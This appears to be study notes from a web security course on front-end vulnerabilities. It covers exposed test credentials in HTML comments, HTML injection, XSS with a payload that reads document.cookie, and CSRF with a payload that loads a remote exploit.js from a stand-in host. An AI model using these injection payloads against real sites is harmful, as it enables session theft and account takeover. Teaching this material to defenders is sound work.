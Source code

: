 # 🌂 Front End Vulnerabilities

## Sensitive Data Exposure

[Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3\_2017-Sensitive\_Data\_Exposure) refers to the availability of sensitive data in clear-text to the end-user.

It can be utilized to gain access to sensitive functionality (i.e., an admin panel), which may lead to compromising the entire server.

#### Example:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

And if we look at the page source:

```html
<form action="action_page.php" method="post">

    <div class="container">
        <label for="uname"><b>Username</b></label>
        <input type="text" required>

        <label for="psw"><b>Password</b></label>
        <input type="password" required>

        <!-- TODO: remove test credentials test:test -->

        <button type="submit">Login</button>
    </div>
</form>

</html>
```

Good to note that these human flaws are not very common but we could find other things such as test pages or directories, debugging parameters, or hidden functionality.

## HTML Injection

Another major aspect of front end security is validating and sanitizing accepted user input.

[HTML injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/11-Client-side\_Testing/03-Testing\_for\_HTML\_Injection) occurs when unfiltered user input is displayed on the page.

When a user has complete control of how their input will be displayed, they can submit `HTML` code, and the browser may display it as part of the page. This may include a malicious `HTML` code, like an external login form, which can be used to trick users into logging in while actually sending their login credentials to a malicious server to be collected for other attacks.

Let's say we have this simple input page:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

If there is no sanitizing and we input this malicious code:

```html
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

The website will look like this:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Cross-Site Scripting (XSS)

[Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) attacks works by injecting `JavaScript` code to be executed on the client-side. Once we can execute code on the victim's machine, we can potentially gain access to the victim's account or even their machine.

here are the main types:

| Type            | Description                                                                                                                               |
| --------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| `Reflected XSS` | Occurs when user input is displayed on the page after processing (e.g., search result or error message).                                  |
| `Stored XSS`    | Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).                    |
| `DOM XSS`       | Occurs when user input is directly shown in the browser and is written to an `HTML` DOM object (e.g., vulnerable username or page title). |

We saw earlier the HTML injection, from that input, we could've printed out the session cookie via a DOM based XSS:

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## Cross-Site Request Forgery (CSRF)

&#x20;[Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf) is caused by unfiltered user input and is used to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.

Another way of exploiting this would be to instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:

```html
"><script src=//www.example.com/exploit.js></script>
```
